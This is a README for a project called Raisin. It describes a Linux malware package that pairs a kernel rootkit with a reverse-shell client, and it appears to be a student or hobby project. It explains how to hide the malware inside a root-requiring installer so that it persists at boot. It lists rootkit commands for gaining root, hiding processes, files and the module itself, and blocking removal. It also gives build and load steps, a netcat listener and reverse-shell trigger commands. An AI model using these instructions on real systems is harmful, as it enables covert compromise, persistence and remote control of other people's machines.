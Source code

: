 # Raisin Malware Ground Truth

<img src="images/angry_raisin.png" width="200">

Raisin can be download at https://github.com/asuar078/raisin, visit page
to see instructions with markdown translated.

Created by:
* Arian Suarez
* Scott Dure
* Donatto Punyed

The raisin malware is a combination rootkit and reverse shell application. The
raisin malware uses the LKM created by [Maxim
Biro](https://github.com/nurupo/rootkit). Grape is a continuously running client
application that will launch a reverse shell and can then be used to send
commands to the LKM. The commands listed below, include gaining
root access, hiding process, files and more.

The rootkit only works on **Linux kernels up to 4.4.0-31** and has
 architecture-specific code in the rootkit which is implemented only for **x86**/
 **x86-64** architectures. The raisin malware was tested on a *Ubuntu 14.04* and
*Ubuntu 16.04* VM. The reverse shell IP on the default build
is set to the VM IP of `10.0.2.15` to change edit line `42` of grape.c.

## Infection Method

The intention is to inject raisin into another download that requires root
privileges to install. The installer will be altered to create the kernel module
and grape client, then add the module to the /etc/modules file, and create a
 startup file for grape so both automatically run program on Linux startup.

## Commands

| Commands         | Description   |
| ---------------- |:-------------:|
| root             | Grants you root shell access. Will happen automatically.|
| hpid $PID        | Hides the specified PID.|
| unpid $PID       | Unhides the specified PID.|
| hfile $FILENAME  | Hides the specified FILENAME globally. Must be a filename without any path|
| unfile $FILENAME | Unhides the specified FILENAME.|
| hide             | Hides the rootkit LKM.|
| unhide           | Unhides the rootkit LKM.|
| protect          | Protects the rootkit from rmmod.|
| unprotect        | Disables the rmmod protection.|
| reverse $IP      | Sends start command to begin reverse shell at IP address, port is 443|
| touch            | Creates a pipe in /opt. A good test to see if root access is working|

## Instructions

1. Run `make` to create rootkit and grape client. Will need to install build
essentials if not already installed `apt-get install build-essential`
2. Load the rootkit using `sudo insmod rootkit.ko`. The rootkit will hide itself
so it can't be seen with `lsmod` till the `unhide` command is given.
3. Open a listener for the reverse shell using `sudo nc -lvp 443`. The default
build target IP is set for default VM IP of `10.0.2.15`.
4. Start the grape client `./grape`. If no internet access is available grape
will shutdown. If you wish to remove this simple delete line `74-75` in grape.c
and recompile.
5. The reverse shell is now active and can be used to send commands to the host
machine.
6. In the `/tmp` directory a pipe is created named `grape_fifo`. Sending `echo -n`
commands to this pipe will allow access to rootkit and other functions.

## Examples Commands

In order to avoid errors with c strings add the '\0' to the end of the line if using two words

```
echo -n "touch" > grape_fifo
echo -n "unhide" > grape_fifo
echo -n "hfile ../test.txt\0" > grape_fifo
echo -n "reverse 192.168.1.1\0" > grape_fifo
```

## Notes

* For **hfile** and **unfile** the path to the file must be from the perspective of the application where it was started.
* grape will automatically close if no internet access is available.
* Default build reverse shell IP address is set to `10.0.2.15` the default VM
IP for testing in a VM, port `443`.
